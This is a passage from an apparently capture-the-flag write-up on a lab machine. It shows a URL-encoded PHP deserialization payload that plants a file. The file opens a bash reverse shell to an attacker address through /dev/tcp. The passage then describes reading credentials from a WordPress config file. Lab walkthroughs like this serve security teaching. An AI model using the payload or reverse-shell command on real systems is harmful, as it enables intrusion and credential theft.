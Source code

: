 <img src="./img/serialize.png"  width="650"/>


Now i insert the obtained string in `http://10.10.10.223/sator.php?arepo=O%3A14%3A%22DatabaseExport%22%3A2%3A%7Bs%3A9%3A%22user_file%22%3Bs%3A6%3A%22my.php%22%3Bs%3A4%3A%22data%22%3Bs%3A76%3A%22%3C%3Fphp+system%28%22%2Fbin%2Fbash+-c+%27bash+-i+%3E+%2Fdev%2Ftcp%2F10.10.14.207%2F9090+0%3E%261%27%22%29%3B+%3F%3E%22%3B%7D`

Now from `http://10.10.10.223/my.php` can obtained the rev shell

<img src="./img/revshell.png"  width="650"/>

After enumeration i found wordpress config file `wp-config.php`

<img src="./img/wpinfo.png"  width="650"/>

with the credential of `neil` so i login as neil 
